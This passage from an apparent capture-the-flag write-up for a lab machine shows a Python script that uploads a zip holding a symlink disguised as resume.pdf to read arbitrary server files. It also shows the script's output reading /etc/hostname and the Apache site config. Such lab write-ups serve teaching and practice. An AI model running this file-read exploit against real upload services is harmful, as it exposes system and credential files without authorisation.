 ```

with zipfile.ZipFile(zip_buffer, "w") as zip_file:
    zipInfo = zipfile.ZipInfo('resume.pdf')
    zipInfo.create_system = 3
    zipInfo.external_attr |= 0xA0000000
    zipInfo.date_time = datetime.now().timetuple()[:6]
    zip_file.writestr(zipInfo, filepath)

files = ('resume.zip', zip_buffer.getbuffer(), {"Content-Type": "application/zip"})
resp = requests.post(f'http://{host}/upload.php',
              files={"zipFile": ('resume.zip', zip_buffer.getbuffer(), {"Content-Type": "application/zip"})},
              data={"submit": ""}
              )

(url, ) = re.findall(r'path:</p><a href="(.*)">\1</a>', resp.text)

resp = requests.get(f'http://{host}/{url}')
sys.stdout.buffer.write(resp.content)

```

And it works (for both text and binaries):

```
oxdf@hacky$ python readfile.py 10.10.11.229 /etc/hostname
zipping

```

### Page Source

#### Find

I’m able to get the Apache config file for the site in the default location, `/etc/apache2/sites-enabled/000-default.conf`. Removing commented lines, it looks very standard:

```
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        <Directory /var/www/html/uploads>
                Options -Indexes
        </Directory>
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

```

It is hosted out of `/var/www/html`, and disallows indexing on the `uploads` directory.

I’m able to read the page source using my script:
